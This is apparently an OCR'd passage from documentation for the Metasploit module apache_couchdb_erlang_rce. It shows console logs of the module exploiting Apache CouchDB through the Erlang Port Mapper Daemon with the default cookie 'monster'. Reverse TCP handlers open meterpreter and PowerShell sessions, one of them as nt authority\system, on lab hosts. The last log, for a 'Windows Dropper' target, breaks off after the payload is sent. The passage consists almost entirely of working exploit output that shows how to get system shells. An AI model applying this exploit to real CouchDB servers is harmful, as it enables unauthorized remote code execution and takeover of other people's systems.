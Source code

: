 ```
Server username: couchdb
meterpreter > sysinfo
Computer     : 172.16.199.164
OS           : Ubuntu 20.04 (Linux 5.15.0-50-generic)
Architecture : x64
BuildTuple   : i486-linux-musl
Meterpreter  : x86/linux
meterpreter > exit
```

### Windows Command, Windows 10, Apache CouchDB 2.3.1
```
msf exploit(multi/http/apache_couchdb_erlang_rce) > run

[*] Started reverse TCP handler on 172.16.199.1:4444
[*] 172.16.199.137:4369 - Running automatic check ("set AutoCheck false" to disable)
[*] 172.16.199.137:4369 - Attempting to connect to the Erlang Port Mapper Daemon (EDPM) socket at: 172.16.199.137:4369...
[*] 172.16.199.137:4369 - Successfully found EDPM socket
[*] 172.16.199.137:4369 - Attempting to connect to the Erlang Server with an Erlang Server Cookie value of "monster" (default in vulnerable instances of Apache CouchDB)...
[*] 172.16.199.137:4369 - Connection successful
[*] 172.16.199.137:4369 - Erlang challenge and response completed successfully
[+] 172.16.199.137:4369 - The target is vulnerable. Successfully connected to the Erlang Server with cookie: "monster"
[*] 172.16.199.137:4369 - sending payload...
[*] Powershell session session 11 opened (172.16.199.1:4444 -> 172.16.199.137:49762) at 2022-10-17 18:44:16 -0400


Shell Banner:
Windows PowerShell running as user DESKTOP-8ATHH6O$ on DESKTOP-8ATHH6O
Copyright (C) Microsoft Corporation. All rights reserved.
-----

PS C:\CouchDB> whoami
nt authority\system
PS C:\CouchDB> systeminfo

Host Name:                 DESKTOP-8ATHH6O
OS Name:                   Microsoft Windows 10 Pro
OS Version:                10.0.19042 N/A Build 19042
...
PS C:\CouchDB>
```

### Windows Dropper, Windows 10, Apache CouchDB 2.3.1
```
msf exploit(multi/http/apache_couchdb_erlang_rce) > run

[*] Started reverse TCP handler on 172.16.199.1:4444
[*] 172.16.199.137:4369 - Running automatic check ("set AutoCheck false" to disable)
[*] 172.16.199.137:4369 - Attempting to connect to the Erlang Port Mapper Daemon (EDPM) socket at: 172.16.199.137:4369...
[*] 172.16.199.137:4369 - Successfully found EDPM socket
[*] 172.16.199.137:4369 - Attempting to connect to the Erlang Server with an Erlang Server Cookie value of "monster" (default in vulnerable instances of Apache CouchDB)...
[*] 172.16.199.137:4369 - Connection successful
[*] 172.16.199.137:4369 - Erlang challenge and response completed successfully
[+] 172.16.199.137:4369 - The target is vulnerable. Successfully connected to the Erlang Server with cookie: "monster"
[*] 172.16.199.137:4369 - sending payload...
...
```